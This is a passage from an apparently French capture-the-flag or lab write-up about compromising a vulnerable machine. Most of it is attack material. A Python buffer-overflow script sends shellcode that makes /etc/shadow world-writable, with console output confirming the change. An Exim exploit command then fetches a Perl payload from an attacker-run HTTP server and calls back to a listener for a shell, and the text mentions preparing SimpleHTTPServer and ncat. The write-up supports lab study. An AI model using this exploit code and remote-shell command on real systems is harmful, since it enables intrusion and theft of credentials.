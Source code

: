 ```python
import socket

shellcode =  "\x31\xc0\x50\xb0\x0f\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68"
shellcode += "\x2f\x2f\x65\x74\x89\xe3\x31\xc9\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80"
addr = "\x8F\x89\x04\x08"
buff = "\x90" * (124 - len(shellcode))
buff += shellcode
buff += addr

s = socket.socket()
s.connect(('192.168.1.95', 7777))
s.recv(20)

s.send(buff)
s.recv(20)
s.close()
```

Qu'est-ce que ça donne ?  

```console
$ ls -l /etc/shadow
-rw-r----- 1 root shadow 719 2014-04-13 12:35 /etc/shadow
$ python sploit.py 
$ ls -l /etc/shadow
-rwxrwxrwx 1 root shadow 719 2014-04-13 12:35 /etc/shadow
```

Pwned again.  

Exim4, l'autre pays du pwnage
-----------------------------

Quels étaient les autres moyens d'arriver à ses fins ? Je n'ai trouvé rien d'intéressant via Samba, en revanche [un exploit de KingCope pour Exim](http://www.exploit-db.com/exploits/15725/) permet d'obtenir un shell :  

```console
$ perl kingcope_exim.pl 192.168.1.95 http://192.168.1.3:8000/dc.pl 192.168.1.3 8888 
220 localhost.localdomain ESMTP Exim 4.50 Sun, 13 Apr 2014 17:58:03 +0200
250-localhost.localdomain Hello abcde.com [192.168.1.3]
250-SIZE 52428800
Set size to 52428800 !
250-PIPELINING
250 HELP
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
Sending large buffer, please wait...
552 Message size exceeds maximum permitted
250 OK
```

On aura préalablement mis en place un `SimpleHTTPServer` ainsi qu'un `ncat` :  
